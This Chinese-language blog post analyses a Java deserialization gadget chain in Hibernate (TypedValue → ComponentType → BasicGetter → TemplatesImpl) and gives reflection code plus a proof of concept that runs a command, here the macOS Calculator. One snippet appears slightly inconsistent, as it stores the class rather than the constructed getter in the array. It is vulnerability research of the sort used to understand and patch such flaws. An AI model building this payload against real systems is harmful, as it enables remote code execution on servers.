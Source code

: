 ```yaml
---
layout: post  
title: "java反序列化漏洞-金蛇剑之hibernate(上)"  
date: 2018-1-26  
description: "java漏洞"  
tag: 漏洞分析
---
```

## 前言:
  金蛇剑:此剑金光灿烂形状奇特，剑身犹如是一条蛇盘曲而成。蛇尾构成剑尖蛇头藏与剑柄，握在手中甚是沉重，原是由黄金铸造而成。此剑形状甚是奇特，整柄剑就如是一条蛇盘曲而成，蛇尾勾成剑柄，蛇头则是剑尖，蛇舌伸出分叉，是以剑尖竟有两叉。
##  主角:
 hibernate
##  介绍:
  Hibernate是一个开放源代码的对象关系映射框架，它对JDBC进行了非常轻量级的对象封装，它将POJO与数据库表建立映射关系，是一个全自动的orm框架，hibernate可以自动生成SQL语句，自动执行，使得Java程序员可以随心所欲的使用对象编程思维来操纵数据库。曾几何时，java web程序员必备面试宝典,ssh(spring+struts2+hibernate)，当年笔者上javaweb课时，老师安利ssh,可见hibernate当年影响力多大。今天笔者跟着大家一起来学习分析hibernate的反序列化漏洞。
## 正文:
 全局搜索了下关键字invoke,发现调用的地方很多。其中org.hibernate.property.BasicPropertyAccessor中BasicGetter类中get函数中调用了此函数，后面构造分析的poc都是基于此类的。
 ![](http://pic.findbugs.top/18-2-6/97813600.jpg)
 根据前几篇的分析，我们大致有了思路。看能不能借助 Xalan’sTemplatesImpl的_bytecodes字段来new一个evil类，或者是借助JdbcRowSetImpl,JNDIConnectionPool来做JNDI绑定(绑定这个词我也不知道恰不恰当)。
 ![](http://pic.findbugs.top/18-2-6/43839589.jpg)
 org.hibernate.engine.spi.TypedValue.TypedValue.readObject()->org.hibernate.engine.spi.TypedValue.initTransients()->org.hibernate.type.ComponentType.getHashCode()->org.hibernate.type.ComponentType.getPropertyValue()->org.hibernate.tuple.component.AbstractComponentTuplizer.getPropertyValue()->org.hibernate.property.BasicPropertyAccessor.BasicGetter.get()
 首先先看BasicGetter类，其构造函数中需要指定3个参数,class,method,propertyName
 ![](http://pic.findbugs.top/18-2-6/21652608.jpg)
 有如下大致思路，将method指定为getOutputProperties,然后将target传入一个TemplatesImpl对象。其中调用的地方如下:
org.hibernate.tuple.component.AbstractComponentTuplizer.getPropertyValue()
 ![](http://pic.findbugs.top/18-2-6/29845091.jpg)
 还需要利用反射区构造一个Getter数组，并且将BasicGetter放至在该数组中。代码如下:
 
	Class<?> getter = Class.forName("org.hibernate.property.Getter");
	Class<?> basicGetter = Class.forName("org.hibernate.property.BasicPropertyAccessor$BasicGetter");
	Constructor<?> bgCon = basicGetter.getDeclaredConstructor(Class.class, Method.class, String.class);
	bgCon.setAccessible(true);
	Object g = bgCon.newInstance(tplClass, tplClass.getDeclaredMethod(method), "demo");
	Object array = Array.newInstance(getter,1);
	Array.set(array,0, basicGetter);
 	
由于AbstractComponentTuplizer是抽象类，不能直接newInstance(),所以要找到AbstractComponentTuplizer的子类，有很多，比如PojoComponentTuplizer。下一步将PojoComponentTuplizer字段getter赋值为上面构造好的Getter数组。对于构造函数为非public的类，可以利用ReflectionFactory来构造实体。详情可以参考http://ju.outofmemory.cn/entry/134713。对于子类中没有，但是父类中含有的字段直接赋值是会出错的，提示java.lang.NoSuchFieldException: getters。可以采用如下方式调用:
(错误)
	
	PojoComponentTuplizer pojoComponentTuplizer = Tool.createWithoutConstructor(PojoComponentTuplizer.class);
	Tool.setFieldValue(pojoComponentTuplizer, "getters", getters);
	
(正确)
	
	PojoComponentTuplizer pojoComponentTuplizer = Tool.createWithoutConstructor(PojoComponentTuplizer.class);
	Tool.getField(AbstractComponentTuplizer.class, "getters").set(tup, getters);
	
一步一步来，根据调用链可知，下一步需要构造一个ComponentType,
ComponentType.getPropertyValue函数如下:
	
	public Object getPropertyValue(Object component, int i)
      throws HibernateException {
	   if ( component instanceof Object[] ) {
	      // A few calls to hashCode pass the property values already in an
	      // Object[] (ex: QueryKey hash codes for cached queries).
	      // It's easiest to just check for the condition here prior to
	      // trying reflection.
	      return (( Object[] ) component)[i];
	   } else {
	      return componentTuplizer.getPropertyValue( component, i );
	   }
	}

 ComponentType componentType = (ComponentType)Tool.getFirstCtor("org.hibernate.type.ComponentType").newInstance();
        Tool.setFieldValue(componentType, "componentTuplizer", pojoComponentTuplizer);
这里需要给propertySpan赋值，因为在getHashCode中，有个执行getPropertyValue的先决条件。
![](http://pic.findbugs.top/18-2-6/89196032.jpg)
执行一个任意大于0的数字即可。
最后一步中的TypedValue只有两个字段，type和value，分别指向
method.invoke( target, (Object[]) null )中的method 和target，分别是TemplatesImpl.getOutputProperties和TemplatesImpl实体,TypedValue其部分关键代码如下:
![](http://pic.findbugs.top/18-2-6/11663981.jpg)

最终构造poc如下:
	
	String command = "Applications/Calculator.app/Contents/MacOS/Calculator";
	Object tpl = Gadgets.createTemplatesImpl(command);
	Object getters = makeBasicGetter(tpl.getClass(), "getOutputProperties");
	PojoComponentTuplizer pojoComponentTuplizer = Tool.createWithoutConstructor(PojoComponentTuplizer.class);
	Tool.getField(AbstractComponentTuplizer.class, "getters").set(pojoComponentTuplizer, getters);
	ComponentType componentType = (ComponentType)Tool.getFirstCtor("org.hibernate.type.ComponentType").newInstance();
	Tool.setFieldValue(componentType, "componentTuplizer", pojoComponentTuplizer);
	Tool.setFieldValue(componentType, "propertySpan", 10);
	TypedValue typedValue = (TypedValue)Tool.getFirstCtor("org.hibernate.engine.spi.TypedValue").newInstance();
	Tool.setFieldValue(typedValue, "type", componentType);
	Tool.setFieldValue(typedValue, "value", tpl);

![](http://pic.findbugs.top/18-2-6/73527732.jpg)
回顾下整个执行过程如下

org.hibernate.engine.spi.TypedValue.TypedValue.readObject()->org.hibernate.engine.spi.TypedValue.initTransients()->org.hibernate.type.ComponentType.getHashCode()->org.hibernate.type.ComponentType.getPropertyValue()->org.hibernate.tuple.component.AbstractComponentTuplizer.getPropertyValue()->org.hibernate.property.BasicPropertyAccessor.BasicGetter.get()
## 总结
整个执行链相对来说还是很复杂的，构造的时候需要一步一步耐心细心的分析，下一次单独讲讲出了利用TemplatesImpl之外，怎么利用JdbcRowSetImpl吧。
